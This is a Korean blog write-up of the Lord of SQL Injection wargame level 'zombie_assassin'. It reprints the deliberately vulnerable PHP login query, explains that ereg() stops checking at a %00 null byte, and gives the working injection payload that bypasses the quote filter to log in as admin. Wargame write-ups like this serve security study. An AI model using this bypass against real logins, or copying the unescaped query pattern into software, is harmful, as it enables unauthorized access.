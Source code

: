 ```yaml
---
title: "[Lord of SQL Injection] LoS - zombie_assassin 문제풀이"
date: 2018-08-04
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


지난 문제에 이어 또 다른 `assassin` 문제이다.
이번에는 `zombie_assassin`이란다.
이 전 문제의 `assassin`이 죽지도 않고 다시 살아서 돌아왔나보다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------------------------
query : select id from prob_zombie_assassin where id='' and pw=''
----------------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```

이번에도 `'(싱글쿼터)`에만 필터링이 있다.
그런데 이번에는 `like`이 아니라 다시 `=`이 사용되었고, `preg_match()`가 아니라 `ereg()`가 사용되었다.
`ereg()`는 이 전에도 한번 언급한 적 있었던 것 같은데, 필터링이 완벽하지 않다.
대소문자 구분도 못할뿐더라, `%00`으로 `null byte`를 넣어주면 이를 문자열의 끝으로 인식 해 이 뒤의 문자는 검사하지 않는다.
때문에 나도 `%00`을 사용 해 문제를 풀었다.
아래와 같이 입력 해 주면 문제를 풀 수 있다.  

```plain
?id=admin&pw=%00a' or id='admin
```

---

```php
-------------------------------------------------------------------------------------------------------------------
query : select id from prob_zombie_assassin where id='admin' and pw='a' or id='admin'
-------------------------------------------------------------------------------------------------------------------

ZOMBIE_ASSASSIN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```

---

```
ZOMBIE_ASSASSIN Clear!!
```